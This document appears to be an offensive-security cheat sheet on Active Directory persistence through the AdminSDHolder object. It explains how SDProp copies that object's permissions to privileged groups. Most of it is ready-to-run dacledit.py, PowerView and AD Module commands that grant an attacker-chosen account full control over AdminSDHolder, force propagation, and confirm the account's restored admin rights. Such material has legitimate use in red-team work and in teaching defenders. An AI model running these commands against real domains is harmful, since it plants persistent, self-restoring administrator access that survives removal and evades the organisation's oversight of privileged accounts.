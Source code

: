 # AdminSDHolder

## Permissions: Domain Admin

### The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

### If you modify the permissions of AdminSDHolder, that permission template will be pushed out to all protected accounts automatically by SDProp (in an hour). E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

### Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL. 

## Linux

    dacledit.py -action write -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -principal user1 -rights FullControl -ace-type allowed -dc-ip <DC_IP> 'domain.local'/'administrator':'password'

### Inspection

    dacledit.py -action read -target "Domain Admins" -principal user1 -dc-ip <DC_IP> domain.local/user1:password

## Windows

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All

##### PowerView

    Add-ObjectAcl -TargetSearchBase 'CN=AdminSDHolder,CN=System' -PrincipalIdentity user1 -Rights All -Verbose

##### AD Module

    Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -Principal user1 -Verbose

Run SDProp manually

    Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

##### Pre-Server 2008

    Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose


OR

Then wait for SDProp process to run. It may take up to 60 minutes. After waiting, run the command below to inspect if the user has been added as a domain admin

### Inspection

    Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

##### PowerView

    Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}

##### AD Module

    (Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=domain,DC=local').Access | ?{$_.IdentityReference -match 'user1'}

